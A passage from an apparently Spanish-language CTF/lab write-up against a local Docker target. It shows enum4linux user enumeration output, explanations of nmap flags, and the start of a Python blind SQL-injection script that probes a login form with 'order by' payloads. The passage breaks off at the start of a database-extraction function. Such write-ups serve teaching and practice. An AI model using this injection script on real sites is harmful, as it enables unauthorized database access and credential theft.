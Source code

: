    ```bash
index: 0x1 RID: 0x3e9 acb: 0x00000010 Account: dylan    Name: dylan     Desc:                                                                                                             

user:[dylan] rid:[0x3e9]

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                               
                                                                                                                                                                                          
S-1-22-1-1000 Unix User\dylan (Local User)                                                                                                                            
S-1-22-1-1001 Unix User\augustus (Local User)
S-1-22-1-1002 Unix User\bob (Local User)


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## SMB (445)

Con enum4linux sacamos un usuario -> **dylan**.

# EXPLOTACION

Vemos que en el login hay un **SQLI**. Lo explotamos con un script en python :

```bash
#!/usr/bin/env python3

import requests
import string

main_url = "http://172.17.0.2/index.php"
characters = string.ascii_lowercase + string.ascii_uppercase + "/*-_"+"1234567890"

def get_num_columns():

	found = False
	i = 256
	while(not found and i >= 0):
		data = f"name=a'order by {i}-- -&password=w&submit="

		r = requests.post(main_url,data=data,headers={"Content-Type": "application/x-www-form-urlencoded"})

		if("Wrong" in r.text):
			found = True
		if(not found):
			i = i - 1
	if(found):
		return i
	else:
		return 0
		
def get_database():

	found = False
```